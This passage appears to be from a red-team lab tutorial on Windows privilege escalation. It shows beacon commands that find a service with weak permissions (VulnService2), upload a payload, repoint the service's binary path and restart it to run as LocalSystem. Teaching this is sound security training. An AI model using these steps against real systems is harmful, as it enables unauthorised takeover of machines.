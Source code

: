This output from SharpUp shows that VulnService2 is "modifiable".
```
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService2' (State: Running, StartMode: Auto)
```
  

However, it doesn't show exactly what the permissions are, so we need to dig a little deeper.  [This](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) PowerShell script will print which service rights we have.
```
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```
  

We can see that all _Authenticated Users_ have _ChangeConfig_, _Start_ and _Stop_ privileges over this service. We can abuse these weak permissions by changing the binary path of the service - so instead of it running `C:\Program Files\Vulnerable Services\Service 2.exe`, we can have it run something like `C:\Temp\payload.exe`.

First - validate that the current path is `"C:\Program Files\Vulnerable Services\Service 2.exe"` (also note that the path is quoted).
```
beacon> run sc qc VulnService2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnService2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vulnerable Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
  

Next, upload a service binary payload and reconfigure the binary path on the vulnerable service.
```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```
  

  The space after `binPath=` is intentional as this is how it's documented in sc's help documentation.

  

Validate that the path has indeed been updated.
```
beacon> run sc qc VulnService2

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Temp\tcp-local_x64.svc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
  

Because the service is currently running (as can be seen with `sc query VulnService2`), we must stop and then start the service to execute our malicious binary.
```
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```
  

To restore the previous binary path:
```
beacon> run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
[SC] ChangeServiceConfig SUCCESS
```

The additional set of escaped quotes is necessary to ensure that the path remains fully quoted, otherwise you could introduce a new unquoted service path vulnerability.